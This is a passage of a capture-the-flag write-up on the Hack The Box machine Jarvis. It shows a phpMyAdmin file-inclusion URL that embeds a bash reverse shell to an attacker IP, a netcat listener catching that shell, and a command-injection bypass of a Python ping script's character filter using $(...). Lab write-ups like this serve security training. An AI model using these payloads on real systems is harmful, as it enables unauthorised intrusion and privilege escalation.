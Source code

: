 ```
http://jarvis.htb/phpmyadmin/index.php?c=%2Fbin%2Fbash%20-c%20%27%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.6%2F4000%200%3E%261%27&target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_5dfprra3jip9kpqj17f71jcmg356bqvf
```

Next, we will move on to stabilize the reverse shell

```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 4000
listening on [any] 4000 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.143] 55466
bash: cannot set terminal process group (640): Inappropriate ioctl for device
bash: no job control in this shell
www-data@jarvis:/usr/share/phpmyadmin$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<min$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@jarvis:/usr/share/phpmyadmin$ export TERM=xterm
export TERM=xterm
www-data@jarvis:/usr/share/phpmyadmin$ stty cols 132 rows 34
stty cols 132 rows 34
```

Moving into the home directory, we realize that the user flag is located in the pepper directory, but we lack the permissions to view the file. Hence, we would now have to do some privilege escalation to the pepper user.

### Source code analysis of /var/www/Admin-Utilities/simpler.py
Running the ```sudo -l``` command, we realize that we can execute /var/www/Admin-Utilies/simpler.py with the privileges of the user pepper.

Looking at the source code, we realize that /var/www/Admin-Utilities/simpler.py may be vulnerable to command injection as the user-defined command variable in exec_ping() function is not properly sanitized. 
However, there is a list of forbidden characters that are being defined which we would have to avoid being passed into the command variable.

```
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
```

### Exploiting command injection vulnerability

Using a test payload of ```$(4*4)```, we realize that we can bypass all the forbidden characters and cause the command to be executed

```
www-data@jarvis:/var/www/Admin-Utilities$ python3 simpler.py -p
python3 simpler.py -p
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

```